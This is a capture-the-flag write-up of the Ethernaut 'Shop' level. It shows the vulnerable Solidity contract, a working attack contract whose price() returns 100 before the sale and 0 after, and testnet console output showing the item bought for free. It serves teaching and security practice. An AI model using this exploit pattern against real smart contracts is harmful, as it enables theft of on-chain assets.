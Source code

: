 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Challenge's message:

> Сan you get the item from the shop for less than the price asked?

This is a simple Solidity smart contract representing a shop where items can be bought. In this contract, we have **price** and **isSold** variables. The price is a public variable that holds the price of the item in the shop, initialized to 100. Then, the isSold variable is a boolean type that checks if the item has been sold or not.

- `Buyer` : This interface represents a buyer of the shop. It contains a function `price()` that when implemented, should return the price the buyer is willing to pay for the item.

- `buy()` : This function allows a buyer to buy an item from the shop. The function first creates an instance of the Buyer interface with the address of the person who called this function. It then checks if the price the buyer is willing to pay is greater than or equal to the price of the item and if the item has not been sold yet. If both conditions are met, the item is marked as sold and the price of the item is updated to the price the buyer paid.


This contract is a simple demonstration of how a shop might function on the blockchain. It should be noted that this contract does not actually transfer any ether or tokens, it simply changes the state variables based on the logic in the `buy()` function.


# Subverting

In this part of the challenge, the only thing we must do is reduce the price of the item. For this reason, we should change the returns value of the `price()` function in the Buyer interface to override the `price()` function. Remember that, the interface's functions can be overrideable. So, we will override the function that returns the value **based on the value of isSold with ternary operators**. I think we set the goals. Let's move on into attack contract.

```solidity
pragma solidity ^0.8.0;

import './Shop.sol';


contract Attack is Buyer{

    Shop target;

    constructor(address _target){
        target = Shop(_target);
    }

    function price() external override view returns (uint){
        return target.isSold() ? 0:100;
    }

    function attack()external{
        target.buy();
    }
}
```

Firstly, it gets an instance of the contract. And then, in the override `price()` function, if the isSold variable's value is equal to true, it returns 0. If it is not, it returns 100. Thus, we will pass the conditions call by call. Finally, call the `buy()` with the attack function. Get the item for free!

Depoy the attack contract. See the transaction [on etherscan](https://sepolia.etherscan.io/tx/0x3ee4cdaa240aea64ccb4af6da0c59cfbe465e6c75e4bff24859053d4df6699b2).

Check the price's and isSold's values.

```shell
await contract.price()
i {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [100, empty]
[[Prototype]]
: 
Object
```

```shell
await contract.isSold()
false
```

Call the attack function and check values again. See the transaction [on etherscan](https://sepolia.etherscan.io/tx/0x66374d8cfea9c0d5ad2781f9e2aa21f8b2fec970d30d8d23fb33d0472537c76e).

```shell
await contract.price()
i {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [0, empty]
[[Prototype]]
: 
Object
```

```shell
await contract.isSold()
true
```

As you can see, we pass the challenge. See you in the next level!

Ethernaut's message:

> Contracts can manipulate data seen by other contracts in any way they want. It's unsafe to change the state based on external and untrusted contracts logic.

**_by wasny0ps_**
